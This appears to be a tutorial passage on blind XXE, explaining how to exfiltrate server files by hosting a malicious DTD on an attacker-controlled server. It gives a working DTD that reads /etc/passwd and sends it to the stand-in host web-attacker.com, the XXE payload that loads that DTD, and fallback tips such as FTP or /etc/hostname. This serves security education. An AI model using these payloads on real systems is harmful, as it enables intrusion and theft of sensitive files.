 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
This DTD carries out the following step:
- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>299</productId></stockCheck>
```
## Note
This technique might not work with some file contents, including the newline characters. This is because some XML parsers fetch the URL defined in the external entity using an API that validates the whitelisted characters against the URL string. In this situation, it might possible to use the FTP protocol instead. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.